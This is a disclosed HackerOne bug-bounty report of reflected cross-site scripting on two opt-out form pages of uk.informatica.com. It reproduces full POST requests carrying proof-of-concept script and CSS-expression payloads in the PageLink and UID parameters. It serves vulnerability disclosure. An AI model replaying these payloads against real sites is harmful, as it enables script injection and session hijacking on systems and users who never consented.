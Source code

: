 # [uk.informatica.com] XSS on uk.informatica..com

## Report Details
- **Report ID**: 143323
- **URL**: https://hackerone.com/reports/143323
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-06-06T14:55:54.892Z
- **Disclosed**: 2017-02-28T04:15:38.590Z

## Reporter
- **Username**: grampae
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
The following urls on uk.informatica.com:80 have XSS vulnerabilities, I have copied the POST header and data for both instances.

--------------------------------------------------------------------------------------------------------------------------------------------
http://uk.informatica.com:80/o/Default.asp (parameters found vulnerable PageLink, ResponseHandlingLanguage, UID), The below example shows the PageLink parameter being exploited with 
" style="width:expression(prompt(1));

POST /o/Default.asp HTTP/1.1
Content-Length: 779
Content-Type: application/x-www-form-urlencoded
Referer: http://uk.informatica.com:80/
Cookie: eu=; ASPSESSIONIDQCABSAAR=DMLJGLOADMFJNAEMPHCPLBMG; Lang=ResponseHandlingLanguage=British
Host: uk.informatica.com
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

OPTOUT=Submit&DMAILX=true&EMAIL=sample%40email.tst&EMAILX=true&EVENTS_DMAIL=TRUE&EVENTS_EMAIL=TRUE&EVENTS_PHONE=TRUE&NAME=&NEWSLETTERS_DMAIL=TRUE&NEWSLETTERS_EMAIL=TRUE&NEW_PRODUCT_DMAIL=TRUE&NEW_PRODUCT_EMAIL=TRUE&NEW_PRODUCT_PHONE=TRUE&OptOutForm=OptOutForm&PageLink=1" style="width:expression(prompt(1));&PHONEX=true&PRODUCT_UPDATE_DMAIL=TRUE&PRODUCT_UPDATE_EMAIL=TRUE&PRODUCT_UPDATE_PHONE=TRUE&PROMOTIONS_DMAIL=TRUE&PROMOTIONS_EMAIL=TRUE&PROMOTIONS_PHONE=TRUE&ResponseHandlingLanguage=British&SURNAME=&TITLE=&TRAINING_DMAIL=TRUE&TRAINING_EMAIL=TRUE&TRAINING_PHONE=TRUE&UID=&USERGROUPS_DMAIL=TRUE&USERGROUPS_EMAIL=TRUE&USERGROUPS_PHONE=TRUE&WEBINAR_DMAIL=TRUE&WEBINAR_EMAIL=TRUE&WEBINAR_PHONE=TRUE&WHITEPAPERS_DMAIL=TRUE&WHITEPAPERS_EMAIL=TRUE&WHITEPAPERS_PHONE=TRUE

--------------------------------------------------------------------------------------------------------------------------------------------

http://uk.informatica.com:80/r/Default.asp (parameters found vulnerable PageLink, ResponseHandlingLanguage, UID), The below example shows the UID parameter being exploited with "><script>prompt(1)</script> .

POST /r/Default.asp HTTP/1.1
Content-Length: 779
Content-Type: application/x-www-form-urlencoded
Referer: http://uk.informatica.com:80/
Cookie: eu=; ASPSESSIONIDQCABSAAR=DMLJGLOADMFJNAEMPHCPLBMG; Lang=ResponseHandlingLanguage=British
Host: uk.informatica.com
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

OPTOUT=Submit&DMAILX=true&EMAIL=sample%40email.tst&EMAILX=true&EVENTS_DMAIL=TRUE&EVENTS_EMAIL=TRUE&EVENTS_PHONE=TRUE&NAME=&NEWSLETTERS_DMAIL=TRUE&NEWSLETTERS_EMAIL=TRUE&NEW_PRODUCT_DMAIL=TRUE&NEW_PRODUCT_EMAIL=TRUE&NEW_PRODUCT_PHONE=TRUE&OptOutForm=OptOutForm&PageLink=1&PHONEX=true&PRODUCT_UPDATE_DMAIL=TRUE&PRODUCT_UPDATE_EMAIL=TRUE&PRODUCT_UPDATE_PHONE=TRUE&PROMOTIONS_DMAIL=TRUE&PROMOTIONS_EMAIL=TRUE&PROMOTIONS_PHONE=TRUE&ResponseHandlingLanguage=British&SURNAME=&TITLE=&TRAINING_DMAIL=TRUE&TRAINING_EMAIL=TRUE&TRAINING_PHONE=TRUE&UID="><script>prompt(1)</script>&USERGROUPS_DMAIL=TRUE&USERGROUPS_EMAIL=TRUE&USERGROUPS_PHONE=TRUE&WEBINAR_DMAIL=TRUE&WEBINAR_EMAIL=TRUE&WEBINAR_PHONE=TRUE&WHITEPAPERS_DMAIL=TRUE&WHITEPAPERS_EMAIL=TRUE&WHITEPAPERS_PHONE=TRUE

## Attachments
No attachments

